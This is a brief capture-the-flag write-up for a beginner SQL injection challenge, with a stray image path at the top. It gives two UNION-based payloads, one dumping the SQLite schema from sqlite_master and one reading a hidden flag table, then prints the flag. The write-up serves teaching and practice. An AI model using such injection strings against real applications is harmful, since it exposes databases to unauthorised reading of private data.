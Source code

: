 Challenge author: t0m7r00z

This challenge introduces SQL Injection.

First: Extract tables names

```'union select 1,name,sql from sqlite_master--```

![](Rev/images/vac.png)

There's a very interesting table called **s3cret_fl4g** that contains a **flag** column.

Now that we know our target, all that is left is to view it!

```'union select 1,2,flag from s3cret_fl4g--```

*inf{an@th3r_v4Cc1n3_ag41n57_Par@lyS1s}*
